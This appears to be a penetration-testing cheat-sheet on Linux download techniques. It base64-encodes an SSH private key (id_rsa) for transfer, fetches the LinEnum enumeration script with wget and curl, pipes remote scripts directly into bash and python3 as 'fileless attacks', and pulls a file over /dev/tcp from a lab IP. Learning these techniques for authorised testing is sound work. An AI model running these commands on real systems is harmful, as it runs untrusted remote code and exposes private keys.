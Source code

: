 # Download Operations

## Base64 Encoding / Decoding
- encode
```bash
$ cat id_rsa |base64 -w 0;echo
```
- paste
```bash
$ echo -n '<base64>' | base64 -d > id_rsa
```

## Web Downloads 

### with Wget and cURL
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**Note:** Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.


```bash
$ exec 3<>/dev/tcp/10.10.10.32/80

$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

$ cat <&3
```
